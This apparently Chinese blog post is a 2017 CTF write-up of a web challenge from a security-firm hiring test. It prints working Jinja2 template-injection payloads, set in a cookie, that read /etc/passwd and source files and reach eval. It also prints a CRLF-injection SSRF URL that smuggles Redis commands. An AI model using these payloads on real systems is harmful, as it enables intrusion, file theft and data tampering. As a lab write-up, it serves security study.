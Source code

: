 ```yaml
---
title: 绿盟安全研究员笔试(web方向一道有意思的CTF)
date: 2017-10-16 04:41:28
tags: CTF
---
```

# 绿盟安全研究员笔试题目

## 0x00 描述
终于想到了要更新下博客了
作为一个web狗只会做web题目
题目只给了一个ip
要求把自己的名字加到候选人名单

## 0x01 信息收集
开放5000 和22 端口
5000 是web服务

## 0x01 利用

### step 1
爆破了一天admin的密码，最终爆破出来的admin密码是nsfocus
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/1.png)

### step 2
登录后发现 没有啥用，仔细观看发现cookie有个username=admin的cookie
修改后发现疑似格式化字符串漏洞
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/2.png)
测试漏洞发现存在[jinjia2任意代码执行](http://www.freebuf.com/articles/system/97146.html)
读/etc/passwd
```cookie
username={{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}};
```
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/3.png)

### step 3
本来想的是直接命令执行，结果发现主要函数都被ban了。如图
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/4.png)
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/5.png)
那就读源码,这里不能直接读，需要读pyc文件进行还原。这里转成了hex
```cookie
username={{[].__class__.__base__.__subclasses__()[40]('/opt/src/nsctf/websec/views.pyc','rb').read().encode('hex')}}; sessionid=8tod6wf9ufy71q5qce2r0jzgi6q57p93
```
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/6.png)

## step 4
这里发现候选人名单是redis里面的
也就是要进行ssrf
这里的MD5的密码是flag=w3ll_d0ne
感觉是[http头注入](blog.blindspotsecurity.com/2016/06/advisory-http-header-injection-in.html)
测试发现，不能ssrf。但是相同环境本地可以ssrf
本地payload如下
```url
http://127.0.0.1%0D%0A%2a3%0D%0A%245%0D%0Arpush%0D%0A%2410%0D%0Acandidates%0D%0A%245%0D%0At1m0n%0D%0A:6379/foo
```

## step 5
卡了很久。最后想到了如果包含views.py 通过REDIS把自己名字加进去也可以
于是这样利用
最后的利用如下
```txt
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__ == 'catch_warnings' %}{% for b in c.__init__.func_globals.values() %}{% if b.__class__ == {}.__class__ %}{% if 'eval' in b.keys() %}{{ b['eval']('__import__("sys").path.append("/opt/src/nsctf/websec")') }}{{ b['eval']('__import__("views").REDIS.rpush(u"candidates","T1m0n")') }}{% endif %}{% endif %}{%endfor%}{% endif %}{% endfor %};
```
![](http://oxcdafmr9.bkt.gdipper.com//nsfocus/7.png)


